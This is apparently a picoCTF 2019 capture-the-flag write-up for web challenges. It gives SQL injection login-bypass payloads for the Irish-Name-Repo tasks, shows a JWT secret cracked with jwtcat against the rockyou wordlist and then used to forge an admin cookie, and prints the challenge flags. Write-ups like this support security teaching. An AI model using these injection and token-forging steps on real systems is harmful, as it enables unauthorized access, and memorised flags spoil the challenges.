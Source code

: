 
<h1 align="center">Web Exploitation</h1>


<h3>Irish-Name-Repo 1 - Points: 300</h3>
There is a website running at https://2019shell1.picoctf.com/problem/4162/ (link) or http://2019shell1.picoctf.com:4162. Do you think you can log us in? Try to see if you can login!

<p align="center"><img src="../Files/web1_2.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE

Username ===> ' or 1337=1337 --
Password ===> ' or 1337=1337 --

Response:
username: ' or 1337=1337 --
password: ' or 1337=1337 --
SQL query: SELECT * FROM users WHERE name='' or 1337=1337 --' AND password='' or 1337=1337 --'

Logged in!

Your flag is: picoCTF{s0m3_SQL_96ab211c}

Flag: picoCTF{s0m3_SQL_96ab211c}
```


<h3>Irish-Name-Repo 2 - Points: 350</h3>
There is a website running at https://2019shell1.picoctf.com/problem/14912/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:14912.

<p align="center"><img src="../Files/web1_2.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE

Username ===> ' or 1337=1337 --
Password ===> ' or 1337=1337 --

SQLi detected.

Username ===> admin' and 1337=1337 --
Password ===> admin' and 1337=1337 --

Response:
username: admin' and 1337=1337 --
password: admin' and 1337=1337 --
SQL query: SELECT * FROM users WHERE name='admin' and 1337=1337 --' AND password='admin' and 1337=1337 --'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_752d1173}

Flag: picoCTF{m0R3_SQL_plz_752d1173}
```


<h3>Irish-Name-Repo 3 - Points: 400</h3>
There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ (link) or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!

<p align="center"><img src="../Files/web3.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE
And caesar code for decrypt and pass !!!

Password ===> ' be 1337=1337 --

Response:
password: ' be 1337=1337 --
SQL query: SELECT * FROM admin where password = '' or 1337=1337 --'

Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_ef7eac2f}

Flag: picoCTF{3v3n_m0r3_SQL_ef7eac2f}
```


<h3>JaWT Scratchpad - Points: 400</h3>
Check the admin scratchpad! https://2019shell1.picoctf.com/problem/45158/ or http://2019shell1.picoctf.com:45158

<p align="center"><img src="../Files/jawt.png"></img></p>

``` shell
I am registered as john.
My cookie is:
jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
```

<p align="center"><img src="../Files/j1.png"></img></p>

``` shell
I use jwtcat for crack secret key.

root@Bl4st3r:/media/sf_D_DRIVE/picoctf19/web/jwtcat# python3 jwtcat.py -t "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y" -w "/media/sf_D_DRIVE/WORDLISTS/rockyou.txt"
[INFO] JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
[INFO] Wordlist: /media/sf_D_DRIVE/WORDLISTS/rockyou.txt
[INFO] Starting brute-force attacks
jwtcat.py:110: DeprecationWarning: The 'warn' method is deprecated, use 'warning' instead
  logger.warn("Pour yourself some coffee, this might take a while..." )
[WARNING] Pour yourself some coffee, this might take a while...
[INFO] Secret key: ilovepico
[INFO] Secret key saved to location: jwtpot.potfile
[INFO] Finished in 675.0711274147034 sec

And on https://jwt.io/ 
I modified my cookie for admin user and with key ilovepico.
```

<p align="center"><img src="../Files/j2.png"></img></p>

``` shell
Modify the cookie with cookie editor and reload the page.
Flag: picoCTF{}
```

<p align="center"><img src="../Files/JaWT.png"></img></p>

``` shell
Flag: picoCTF{}
```
